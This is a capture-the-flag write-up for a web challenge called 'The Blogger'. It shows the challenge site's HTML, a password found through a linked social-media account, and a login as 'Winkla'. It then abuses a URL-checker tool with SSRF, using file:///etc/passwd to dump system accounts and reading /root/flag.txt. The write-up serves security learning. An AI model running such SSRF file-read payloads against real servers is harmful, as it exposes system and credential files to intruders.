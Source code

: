 ## The Blogger

## Description
```
Me and some friends made this super awesome Blogging website.

Can you find any potential security issues?
```

## Writeup

Starting off, we should take a look at the website. <br/>
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="../static/style.css">
    <script src="https://kit.fontawesome.com/b7b4b27f8b.js" crossorigin="anonymous"></script>
    <title>R4P1D-BL0G</title>
</head>
<body>
    <nav id="navBar">
        <a class="navTitle" href="/">R4P1D-BL0G</a>
        <div class="navLinks">
            
            
            <a class="navLink" href="/login">Login</a>
            
            <a class="navLink" href="/about">About</a>
            <a class="navLink" href="/contact">Contact</a>
        </div>
    </nav>

    <div id="posts">
        
            <div class="postContainer">
                <h1 style="margin-top: 10px; margin-bottom: 10px;">The Rise of Artificial Intelligence</h1>
                <p>Artificial Intelligence (AI) is revolutionizing various industries, from healthcare to finance. In this post, we explore the latest advancements in AI technology, its potential applications, and the ethical considerations surrounding its development and implementation.</p>
                <div class="postBottom">
                    <div class="author-info">Written by: Dejan</div>
                    <ul class="social-icons">
                        <li><a href="https://twitter.com/bozo_kiss" target="_blank"><i class="fab fa-twitter"></i></a></li>
                        <li><a href="https://www.instagram.com/mr__whoam.i/" target="_blank"><i class="fab fa-instagram"></i></a></li>
                        <li><a href="https://www.linkedin.com/in/jeff-delaney/" target="_blank"><i class="fab fa-linkedin"></i></a></li>
                    </ul>
                </div>
            </div>

            ------------------

                        <div class="postContainer">
                <h1 style="margin-top: 10px; margin-bottom: 10px;">The Promise of Quantum Computing</h1>
                <p>Quantum computing has the potential to revolutionize computing as we know it, offering exponential processing power and the ability to solve complex problems at speeds previously thought impossible. In this post, we explore the fundamentals of quantum computing, its current state of development, and the possibilities it holds for the future.</p>
                <div class="postBottom">
                    <div class="author-info">Written by: Begga</div>
                    <ul class="social-icons">
                        <li><a href="https://twitter.com/ai_sentinel" target="_blank"><i class="fab fa-twitter"></i></a></li>
                        <li><a href="https://www.instagram.com/mr__whoam.i/" target="_blank"><i class="fab fa-instagram"></i></a></li>
                        <li><a href="https://www.linkedin.com/in/jeff-delaney/" target="_blank"><i class="fab fa-linkedin"></i></a></li>
                    </ul>
                </div>
            </div>

            ------------------

    </div>
</body>
</html>
```

Looking at the html code we can see some blog-posts. One is different from the others though because it contains the link `https://twitter.com/ai_sentinel`. <br/>
If we take a look at the posts of the user `@ai_sentinel` we can find [this post](https://twitter.com/ai_sentinel/status/1682281038884532224). <br/>
Looking at the comment of the post we can find [a comment](https://twitter.com/ai_sentinel/status/1682282144243040257) which contains the password `d0ck3rsw4rm`. <br/>
Using this password we can then log into the website with the credentials `Winkla:d0ck3rsw4rm`. <br/>

After logging in, we gain access to a newly introduced webpage located at `/dashboard`. <br/>
On that webpage there is a tool called `URL-Checker` which essentially takes an `URL` as input and returns the html contents of the page. <br/>
Testing the input, we can actually execute SSRF(Server Side Request Forgery) and read local files instead. <br/>
Using the URL `file:///etc/passwd` we get the output below. <br/>
```
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin 
sys:x:3:3:sys:/dev:/usr/sbin/nologin 
sync:x:4:65534:sync:/bin:/bin/sync 
games:x:5:60:games:/usr/games:/usr/sbin/nologin 
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin 
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin 
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin 
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin 
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin 
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin 
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin 
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin 
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin 
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin 
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin 
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin 
```

Knowing this we can enumerate the file system until we finally find `file:///root/flag.txt` which returns the following: <br/>
```
Here, grab your flag: TH{2e317b7a-f36c-11ee-b1bc-fbd82bddf705} 
```